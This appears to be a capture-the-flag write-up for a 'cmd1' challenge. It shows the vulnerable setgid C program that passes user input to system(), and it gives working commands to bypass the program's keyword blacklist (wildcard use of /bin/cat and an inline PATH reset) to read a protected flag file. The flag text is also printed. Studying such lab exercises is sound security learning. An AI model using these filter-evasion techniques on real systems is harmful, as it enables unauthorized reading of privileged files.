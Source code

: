 # cmd1

The home folder of this challenge contains the following:

```
cmd1@ubuntu:~$ ls -l
total 20
-r-xr-sr-x 1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r-- 1 root root      319 Jul 14  2015 cmd1.c
-r--r----- 1 root cmd1_pwn   48 Jul 14  2015 flag

```

### cmd1.c
```
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/fuckyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

In this challenge, the `PATH` variable will be overrriden by a non-existing path. Therefore it is not possible to execute default programs like `cat` directly.

We could find out ourselves where the `cat` program is located on the system and execute it by typing the whole path.

```
cmd1@ubuntu:~$ which cat
/bin/cat
```

The words `flag`, `sh` and `tmp` are blacklisted and cannot be in the command we want to execute. The easiest solution to work aroud this is to execute `cat` for all the files in home folder.

```
cmd1@ubuntu:~$ ./cmd1 "/bin/cat *"
ELF>�@@X@8	@@@@@@��88@8@@@ ((`( PP`P`��TT@T@DDP�td��@�@44Q�tdR�td((`(`��/lib64/ld-linux-x86-64.so.2GNUGNU�{#'�(�/B�-��xl�
                  n(/! __gmon_start__libc.so.6strstrputenvsystem__libc_start_mainGLIBC_2.2.5ui
[truncated]
	system( argv[1] );
	return 0;
}

mommy now I get what PATH environment is for :)
```

It was also possible to set the `PATH` environment variable back to the original value.

```
cmd1@ubuntu:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cmd1@ubuntu:~$ ./cmd1 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games; cat *"
[truncated]
mommy now I get what PATH environment is for :)
```